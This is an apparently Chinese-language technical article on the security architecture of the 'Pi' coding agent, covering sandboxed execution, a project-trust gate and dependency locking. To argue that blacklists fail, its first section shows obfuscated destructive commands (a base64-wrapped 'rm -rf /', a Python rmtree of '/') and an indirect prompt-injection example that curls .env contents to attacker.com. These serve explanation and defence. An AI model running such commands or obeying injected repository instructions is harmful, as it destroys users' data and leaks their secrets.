



**TL;DR：** 绝大多数编码 Agent 在宣传中强调“内置权限弹窗与命令黑名单”，但在工程上这往往是一种**安全幻觉**——只要执行环境在宿主机，模型就能通过 subshell、base64 编码、管道拼接或写临时脚本轻松绕过正则匹配。Pi 的安全哲学极其清醒：**应用层只负责交互辅助，真正的安全边界必须推给操作系统与虚拟化。** Pi 的核心包不硬编码权限系统，而是通过 05 篇介绍的 `BashOperations` 抽象接口，让用户无缝切换到 Gondolin 微虚拟机、Docker 容器或 OpenShell 隔离运行时；同时依托 `project_trust` 启动门禁与严格的 monorepo 依赖锁定，构筑防御间接提示词注入（Indirect Prompt Injection）与恶意仓库代码执行的完整防线。


---



## 一、应用层权限弹窗的「安全幻觉」

许多开发者初次接触 Agent 时，最直观的安全诉求是：“让 Agent 执行危险命令（如 `rm -rf` 或 `sudo`）前弹窗问我一声”。07 篇展示过，在 Pi 中通过扩展仅需 34 行代码（`examples/extensions/permission-gate.ts`）就能订阅 `tool_call` 事件实现这一交互。

但 Pi 的架构文档明确指出：**这只是“防手滑”的交互辅助（Safety Check），绝不能当成“安全边界（Security Boundary）”。**

原因在于，基于应用层正则或字符串黑名单的拦截存在根本性漏洞：

1. **Shell 语法的无限混淆性**：`rm -rf /` 可以被表达为 `bash -c "$(echo cm0gLXJmIC8= | base64 -d)"`、`python3 -c "import shutil; shutil.rmtree('/')"`、或拆分成多个变量拼接执行；
2. **两阶段逃逸**：模型可以先调用 `write` 工具在 `/tmp` 生成一个看似无害的 `build.sh`，再通过 `bash ./build.sh` 执行，正则匹配完全无法看穿脚本内部动作；
3. **间接提示词注入（Indirect Prompt Injection）**：恶意仓库在测试用例、Git Commit 或 Markdown 中埋入隐藏指令，诱导模型在分析代码时调用终端执行外发数据的网络请求（如 `curl https://attacker.com?leak=$(cat .env)`）。

如果 Harness 承诺“内置权限系统足以保证安全”，反而会给开发者带来虚假的安全感。因此，Pi 确立了清晰的职责划分：**应用层只管向模型清晰报告工具调用的输入输出，执行环境的物理隔离交给系统级容器。**

---

## 二、BashOperations 接口：把执行权推向容器

在 05 篇中我们分析了 `packages/coding-agent/src/core/tools/bash.ts` 的实现。Pi 将所有终端执行动作收敛在一个极薄的抽象接口 `BashOperations` 之后：

```ts
// packages/coding-agent/src/core/tools/bash.ts（节选；字段按当前接口示意）
export interface BashOperations {
  exec(command: string, options: ExecOptions): Promise<ExecResult>;
  spawn(command: string, options: SpawnOptions): ProcessHandle;
  killTree(pid: number, signal?: NodeJS.Signals): Promise<void>;
}
```

默认情况下，Pi 使用宿主机的 Node.js `child_process` 实现该接口。但当需要真正的安全隔离时，用户无需修改核心 Agent Loop，只需通过扩展或 CLI 参数将 `BashOperations` 替换为沙箱驱动：



三种常见隔离方案在性能与安全上的取舍对比如下：

| 方案 | 隔离机制 | 启动开销 | 网络/磁盘隔离能力 | 适用场景 |
| --- | --- | --- | --- | --- |
| **Gondolin** | 基于 KVM/微虚拟机的微型 Linux VM | ~150ms 启动 | 完全隔离（专用内核、只读 rootfs、虚拟网卡） | 云端多租户、高危自动化任务 |
| **Docker** | OCI 容器、cgroup 与 namespace | 1-2s 容器拉起 | 文件系统只读挂载、bridge 网络限制 | CI/CD 构建流水线、团队统一开发镜像 |
| **OpenShell / bwrap** | Linux User Namespace / Seccomp 过滤 | <10ms 原生启动 | 限制宿主目录写权限、拦截危险系统调用 | 本机开发、防止误改系统关键目录 |

通过将沙箱实现在 `BashOperations` 之后，Pi 保持了上层状态机、事件流和 50KB 输出缓冲区机制的完全复用，沙箱只负责承接最终的系统调用。

## 三、供应链加固与项目信任防线

除了运行时命令执行，现代编码 Agent 还面临两类严重的供应链与环境攻击：**扩展注入**与**恶意工作区激活**。Pi 在工程实现上采取了三道防线：

### 1. 扩展显式声明与零未知动态 Eval

不同于一些允许从网络动态下载并执行未签名插件的 Agent 平台，Pi 的扩展机制坚持“同进程、显式参数加载”：
- 扩展必须在配置文件（`~/.pi/config.json`）或启动参数（`--extension <path>`）中由用户显式指定；
- 扩展以本地原生 TypeScript 模块加载，通过 `ExtensionAPI` 获取受控的能力注入，不提供未受限的全局动态代码执行端口；
- 官方 Monorepo 内部仅发布 5 个核心包，严格锁定 `package-lock.json` 中的依赖树，杜绝依赖项幽灵漂移。

### 2. `project_trust` 门禁与工作区防御

当 Agent 被拉入一个新克隆的开源项目时，仓库根目录可能包含恶意配置。Pi 在启动生命周期中设计了 `project_trust` 决策钩子：

```ts
// packages/coding-agent/src/core/lifecycle.ts（逻辑节选）
export async function initializeProject(projectDir: string, api: ExtensionAPI) {
  const isTrusted = await checkProjectTrust(projectDir);
  if (!isTrusted) {
    // 触发 project_trust 事件，由 TUI 或扩展弹出确认
    const trustDecision = await api.emit("project_trust", { projectDir });
    if (!trustDecision.trusted) {
      // 降级为只读分析模式：禁用 bash、禁用自动规则加载
      disableAutonomousTools();
    }
  }
}
```

在未获得用户显式信任前，工作区内的局部指令文件（如 `.pi/skills/`）与命令执行工具会被自动禁用，从根源切断了克隆恶意仓库即遭攻陷（Clone-and-RCE）的攻击路径。




## 四、结论：把策略留给用户，把隔离留给系统

Pi 的安全设计是其“极简与工程克制”哲学的直接体现：

1. **拒绝虚假的安全宣传**：不在应用层堆砌脆弱的关键词黑名单；
2. **抽象清晰的系统切口**：通过 `BashOperations` 统一对接微虚拟机与容器，让真正的系统隔离设施发挥作用；
3. **严格的加载与信任边界**：显式扩展加载与 `project_trust` 机制抵御供应链与注入风险。

验证路径：
- 查阅 `packages/agent/src/tools/exec/` 查看 `BashOperations` 接口及 `child_process` 默认实现；
- 在本机安装 Docker 或使用 `examples/extensions/sandbox/`，验证如何通过将命令转发给容器容器化运行 Agent 任务；
- 模拟未信任目录测试 `project_trust` 触发流程，验证只读与禁用策略的生效表现。

## 参考资料

- `packages/coding-agent/src/core/tools/bash.ts:62`：`BashOperations` 接口定义（08-23 复测）
- `packages/coding-agent/docs/containerization.md`：Pi 官方容器化沙箱接入指南（Docker / Gondolin / OpenShell）
- `packages/coding-agent/examples/extensions/sandbox/`：官方沙箱扩展实现样例
- earendil-works/pi @ `b23741269`（2026-08-23 复测基线；另见 `packages/agent/src/harness/tools/` 新出现的第二组工具目录，两层工具的关系是 05 篇的后续观察点）
